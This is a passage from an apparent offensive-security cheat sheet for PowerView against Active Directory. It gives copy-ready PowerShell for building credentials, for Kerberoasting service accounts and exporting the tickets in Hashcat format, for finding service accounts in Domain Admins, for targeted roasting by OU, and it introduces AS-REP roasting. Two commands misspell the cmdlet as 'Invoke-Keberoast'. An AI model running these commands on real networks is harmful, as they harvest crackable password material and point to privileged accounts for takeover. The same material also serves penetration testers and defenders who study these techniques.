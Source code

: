 Note: This can be a problem when using a remote PSSession. Keep this in mind.

### Setting Creds

Option A, create some PSCredentials manually:

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Get-DomainUser -Credential $Cred
```

Option B, prompt for username and password:

`$Cred = Get-Credential`

## Kerberoasting

PowerView's dev branch contains Invoke-Kerberoast, so no need to fetch it from another repo, like Empire. Invoke-Kerberoast "wraps the logic from Get-NetUser -SPN (to enumerate user accounts with a non-null servicePrincipalName) and Get-SPNTicket to request associated TGS tickets."

https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/

A very basic Kerberoast:

`Invoke-Keberoast | fl`

Specifying a domain, requesting only potentially privileged users, and outputting to Hashcat:

`Invoke-Keberoast -AdminCount -Domain contoso.local -OutputFormat Hashcat | fl`

"Note that the -AdminCount flag only Kerberoasts accounts with AdminCount=1, meaning user accounts that are (or were) ‘protected’ and, therefore, almost always highly privileged."

Alternative method: Using `Get-DomainUser -SPN` to get all domain users with an SPN. Then pipe the results into a call to `Get-DomainSPNTicket` to request the SPN for each user. Finally, export the results to a CSV file instead of stdout.

`Get-Domainuser -Credential $Credential -Server dc01.contoso.local -SPN | Get-DomainSPNTicket -Credential $Credential -OutputFormat Hashcat | Export-Csv C:\Users\Administrator\Desktop\spns.csv –NoTypeInformation`

Find all service accounts in "Domain Admins":

`Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}`

### Targeted Kerberoasting

Kerberoast any users in a particular OU with SPNs set:

`Invoke-Kerberoast -SearchBase "LDAP://OU=secret,DC=testlab,DC=local"`

### Roasting AS-REPs

https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/

If you can enumerate any accounts in a Windows domain that don’t require Kerberos preauthentication, you can now easily request a piece of encrypted information for said accounts and efficiently crack the material offline, revealing the user’s password.
